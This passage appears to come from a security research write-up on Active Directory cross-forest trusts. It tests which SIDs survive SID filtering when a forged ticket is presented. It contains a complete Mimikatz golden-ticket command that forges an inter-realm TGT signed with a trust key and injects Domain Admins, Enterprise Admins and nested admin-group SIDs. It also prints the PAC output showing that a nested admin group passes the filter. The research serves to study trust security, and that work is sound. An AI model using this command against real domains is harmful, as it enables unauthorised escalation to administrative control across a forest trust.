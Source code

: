 Our Service Ticket from the `forest-b` DC now includes all the SIDs we put into our earlier Mimikatz ticket! This means that we can specify **any SID that is not filtered as ForestSpecific** in our PAC and that it will be accepted by the DC of forest B.

Let's create a new golden ticket with a few more SIDs to test this hypothesis:

```
kerberos::golden /domain:forest-a.local /sid:S-1-5-21-3286968501-24975625-1618430583 /rc4:b8e9b4b3feb56c7ba1575bf7fa3dc76f /user:Superuser /target:forest-b.local /service:krbtgt /sids:S-1-5-21-3286968501-24975625-1618430583-1604,S-1-5-21-3286968501-24975625-1111111111-1605,S-1-18-1,S-1-5-21-2897307217-3322366030-3810619207-1106,S-1-5-21-2897307217-3322366030-3810619207-512,S-1-5-21-2897307217-3322366030-3810619207-519,S-1-5-21-2897307217-3322366030-3810619207-548,S-1-5-21-2897307217-3322366030-3810619207-3101
```

The new SIDs included here:
- `S-1-5-21-2897307217-3322366030-3810619207-512`: Domain Admins, should be filtered by explicit ForestSpecific rule
- `S-1-5-21-2897307217-3322366030-3810619207-519`: Enterprise Admins, should be filtered by explicit ForestSpecific rule
- `S-1-5-21-2897307217-3322366030-3810619207-548`: Account Operators, should be filtered by the ForestSpecific rule disallowing SIDs between 500 and 1000.
- `S-1-5-21-2897307217-3322366030-3810619207-3101`: Is a group that is a member of Domain Admins, should not be filtered.

As you may have noticed, the above is actually signed with the inter-realm trust key, so we are directly creating the TGT that is valid for Forest B here, to skip the step of offering it to the Forest A DC first.

Now we get the following back in the PAC of our Service Ticket:

```
Username: Superuser
Domain SID: S-1-5-21-3286968501-24975625-1618430583
UserId: 500
PrimaryGroupId 513
Member of groups:
  ->   513 (attributes: 7)
  ->   512 (attributes: 7)
  ->   520 (attributes: 7)
  ->   518 (attributes: 7)
  ->   519 (attributes: 7)
LogonServer:  
LogonDomainName:  FOREST-A

Extra SIDS:
  ->   S-1-5-21-3286968501-24975625-1618430583-1604
  ->   S-1-5-21-3286968501-24975625-1111111111-1605
  ->   S-1-18-1
  ->   S-1-5-21-2897307217-3322366030-3810619207-1106
  ->   S-1-5-21-2897307217-3322366030-3810619207-3101
Extra domain groups found! Domain SID:
S-1-5-21-2897307217-3322366030-3810619207
Relative groups:
  ->   1107 (attributes: 536870919)
```
